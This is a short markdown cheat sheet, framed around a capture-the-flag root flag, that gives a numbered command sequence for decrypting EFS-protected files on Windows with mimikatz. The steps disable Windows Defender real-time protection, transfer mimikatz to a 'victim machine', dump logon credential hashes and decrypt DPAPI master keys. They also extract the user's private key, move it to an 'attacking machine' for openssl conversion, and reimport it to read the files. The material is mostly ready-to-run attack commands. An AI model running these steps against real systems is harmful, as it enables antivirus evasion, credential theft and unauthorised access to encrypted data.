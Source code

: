 ## Decrypt EFS encrypted files with mimikatz

## Requirements: System/root level access

### Example: We have a root flag that we can't read even as the SYSTEM user. We do the steps below:

#### 1) cipher /c root.txt (It will show you which users can decrypt the file, as well as the certificate thumbprint to export it to a .der file with mimikatz later)

#### 2) powershell set-mppreference -disablerealtimemonitoring $true (Disable AV to safely download mimikatz to victim machine)

#### 3) Transfer mimikatz.exe to the machine

#### 4) ./mimikatz.exe

#### 5) privilege::debug

#### 6) crypto::system /file:"C:\Users\USER\AppData\Roaming\Microsoft\SystemCertificates\My\Certificates\CERTIFICATE_STRING /export (Obtains and exports the public key to a .der file.) 

#### 7) dpapi::capi /in:"C:\Users\USER\AppData\Roaming\Microsoft\Crypto\RSA\USER_SID\RANDOM_NUMBERS" (Verify that the private key is located in this container) Hint: the pUnique name is the same as earlier container name.

#### 8) dpapi::masterkey /in"C:\Users\USER\AppData\Roaming\Microsoft\Protect\USER_SID\ENCRYPTED_MASTERKEY_GUID /password:PASSWORD or /hash:SHA1_HASH HINT: We can also use the SHA1 hash to decrypt the masterkey. We can dump the SHA1 of the user with sekurlsa::logonpasswords command.

#### 9) dpapi::capi /in:"C:\Users\USER\AppData\Roaming\Microsoft\Crypto\RSA\USER_SID\RANDOM_NUMBERS" /masterkey:DECRYPTED_MASTERKEY (Obtains the private key)

#### 10) Transfer the .der  and the .pvk files to attacking machine with the method of your choice

#### 11) Attacking machine: openssl x509 -inform DER -outform PEM -in PUBLIC_KEY.der -out public.pem

#### 12) Attacking machine: openssl rsa -inform PVK -outform PEM -in PRIVATE_KEY.pvk -out private.pem

#### 13) openssl pkcs12 -in public.pem -inkey private.pem -password pass:mimikatz -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx (Generate a certificate .pfx file by using the public and private .pem files we previously generated from the files extracted by mimikatz)

#### 14) Transfer the cert.pfx file to the machine

#### 15) Victim machine: certutil -user -p mimikatz -importpfx cert.pfx NoChain,NoRoot (Import the .pfx certificate.)

#### 16) Now we can finally read the previously encrypted files!
